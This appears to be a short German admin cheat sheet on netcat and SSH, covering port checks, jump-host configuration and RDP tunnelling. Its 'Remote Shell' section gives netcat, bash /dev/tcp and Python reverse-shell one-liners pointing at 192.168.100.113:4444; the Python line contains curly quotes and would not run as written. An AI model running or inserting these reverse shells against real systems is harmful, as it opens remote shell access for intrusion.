 .. _nc_allg:

################
Netcat
################

Port offen:
============
nc -zv <host> <port>


Remote Shell
==============
Target Host: nc -lvp <port>
Source Host: 
* nc <target-ip> <port> -e /bin/bash

Alternativ via Bourne Shell auf dem target host:
Auf dem Target: bash -i >& /dev/tcp/192.168.100.113/4444 0>&1

Alternativ via Python auf dem target host:
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“192.168.100.113”,4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);''


SSH
=====

Jumphost
---------

ssh über zwei Jumphosts:
    ssh -A -J <user@jmp1host>,<user@jmp2host> <user>@<zielhost>
    
    oder .ssh/config
    Host <zielhost>
        ProxyJump <user@jmp1host>,<user@jmp2host> <user>@<zielhost>

    dann mit <user>@<zielhost> anmelden

Windows RDP über ssh-Jumphost
------------------------------
ssh -L 33389:<windows terminalserver>:3389 -N <user>@<linux jumphost>

